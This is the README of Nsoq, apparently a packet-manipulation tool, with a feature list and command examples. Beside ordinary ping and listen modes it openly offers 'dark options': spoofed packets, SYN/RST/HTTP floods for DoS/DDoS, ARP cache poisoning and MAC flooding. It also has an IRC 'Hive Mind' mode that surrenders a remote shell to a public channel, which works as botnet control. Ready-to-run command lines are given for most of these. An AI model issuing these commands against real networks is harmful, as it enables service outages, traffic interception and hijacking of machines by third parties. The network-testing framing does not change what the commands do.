 Nsoq official documentation: See [here.](http://www.nsoq.org)
========================================================================


## About
--------

Nsoq is a Network Security Tool for packets manipulation that allows a large number of options. Its primary purpose is analyze and test several scenarios of TCP/IP environments, such TCP/UDP packets and low levels ARP/RARP packets. Nsoq sends packets to any target type (hostnames, IPs and MAC address) handling many fields/headers like: Source/Destination IP address, Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet size, payloads ARP/RARP, etc.

Nsoq is able to operate into the RSOI mode (Remote System over IRC), where the tool can surrender all control of machine resources to some specific IRC channel, also called Hive Mind option.

Nsoq exeutes sistematically many types of network based attacks, like packet attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and Web Stress Testing. 

<BR/>

## Features
-----------

#### Some white options:
- Sends and checks many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Sends and checks the TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and sends UDP packets.
- Sends and checks ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler on all modes.
- Sets packet size for all modes.
- Show a packet dump on listen modes (tcpdump style).
- [RSOI mode] Delivers a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O bound connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP test.
- [DoS/DDoS Attack] WEB Stress TCP test.
- [DoS/DDoS Attack] WEB Stress UDP test.
- [DoS/DDoS Attack] WEB Stress ICMP test.
- [DoS/DDoS Attack] WEB Stress SYN test.
- [DoS/DDoS Attack] WEB Stress ACK test.
- [HIVE MIND] Surrenders remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- MAC e IP spoofing.
- [HIVE MIND] Across of an IRC channel, perform a Distributed Denial Of Service (DDoS) attack.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.nsoq.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.nsoq.org".

   # nsoq -s 10.1.100.100 -d www.nsoq.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.nsoq.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to server "www.nsoq.org" and to port 9000,
      from source port 22000 with flood Delay of 900 miliseconds.

   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for send ICMP packets (Echo Request) with size of 512 bytes 
      to host "201.1.0.13" with TTL 50. Don't wait for ICMP Echo ReplY.

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen TCP connections on local port "12345", and write the received
      data on file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.nsoq.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.nsoq.org" on port 8080, with 12
      threads and super flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. (The
      source MAC address and the source IP address will be obtained locally 
      by the active interface. The destination IP address will be NULL).

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface with source MAC 
      00:BB:AA:CC:BB:AA, to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" have
      now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option changes
      the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Send an Arp'ing packet to Host "10.1.50.100". If the host hardware is
      alive on network or LAN, by default an ARP REPLY will be returned.
      Otherwise, nothing happens. This option can be used to bypass ICMP
      filters (PING filters).

   # nsoq -f 250000
      Send 250000 ARP REPLY packets (to physical broadcast) with the
      fields (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP
      ADDRESSESS) randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Does a listen action for all incoming
      ARP/RARP packets on link layer, and show the packet content.

   # nsoq -N irc.quakenet.org -L Cybers
      Sets the Nsoq to connect on IRC Server "irc.quakenet.org" on channel
      #Cybers. This option puts Nsoq on the RSOI mode. So, the Nsoq 
      will be NO AVAILABLE to be controled by user. Only the users on IRC
      server "irc.quakenet.org" channel #Cybers can do this.

   # nsoq -d 10.0.0.1 -W -n 40
      Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send HTTP
      requests (GET method) on super flooding mode to host "10.0.0.1" on port
      80 (WEB HTTP) with 40 threads. This stress test attempts to exhaust the
      services on port 80 (Web Server) and check the target's limit response.
```

<BR/>

## SECURITY
-----------

   Nsoq need superuser privileges (root) for operation and execution. DO NOT
   use the stick bit to allow root privilegies. This is not recommended and
   may allow involuntary or agressive DoS/DDoS attacks. The privileged Nsoq
   use also allows users manipulate the ARP cache table of neighbors on
   network, or put the system over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded here: 
   [http://www.nsoq.org](http://www.nsoq.org)
